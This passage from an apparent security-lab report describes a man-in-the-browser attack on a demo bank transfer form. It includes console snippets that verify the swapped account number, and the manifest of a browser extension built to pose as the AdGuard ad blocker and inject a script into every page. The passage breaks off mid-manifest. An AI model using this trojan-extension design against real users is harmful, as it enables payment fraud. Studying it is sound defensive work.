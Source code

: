 1. On the demo page, we fill out the transfer form with any account number
2. After proceeding to the confirmation screen, the account number shown to the user remains the same as entered
3. However, the value actually sent to the server is already changed to the attacker's account number

The attack can be verified using the browser's developer tools:

```javascript
// Print both account numbers in the console
console.log("Number displayed:", document.getElementById("summary-account").textContent);
console.log("Number actually being sent:", document.getElementById("accountNumber").value);
```

Additional verification is done using a hidden marker added to the DOM that stores both account numbers:

```javascript
// Check the hidden marker
const marker = document.getElementById("attack-demonstration-marker");
console.log("Displayed:", marker.getAttribute("data-displayed-account"));
console.log("Sent:", marker.getAttribute("data-submitted-account"));
```

---

## Task 2.2: Browser Extension

### Extension Structure

For Task 2.2, I implemented the attack as a browser extension. This extension pretends to be the popular ad blocker "AdGuard" to increase the chances of installation by unsuspecting users. The extension structure includes:

- **manifest.json** - extension configuration file
- **content.js** - script injected into visited pages, containing the attack code
- **background.js** - background script managing the configuration
- **popup.html/js** - extension user interface
- **icons/** - folder with icons in various sizes

### Extension Manifest

The `manifest.json` file defines the extension properties, required permissions, and entry points:

```json
{
  "manifest_version": 3,
  "name": "AdGuard Free - Ad Blocker",
  "version": "1.2.3",
  "description": "Block ads, pop-ups and protect your privacy while browsing the internet",
  "permissions": ["activeTab", "storage", "scripting", "tabs"],
  "action": {
    "default_popup": "popup.html",
    "default_icon": {
      "16": "icons/icon16.png",
      "48": "icons/icon48.png",
      "128": "icons/icon128.png"
    }
  },
  "content_scripts": [
    {
      "matches": ["*://*/*"],
      "js": ["content.js"]
    }
  ],
  "background": {
    "service_worker": "background.js"
```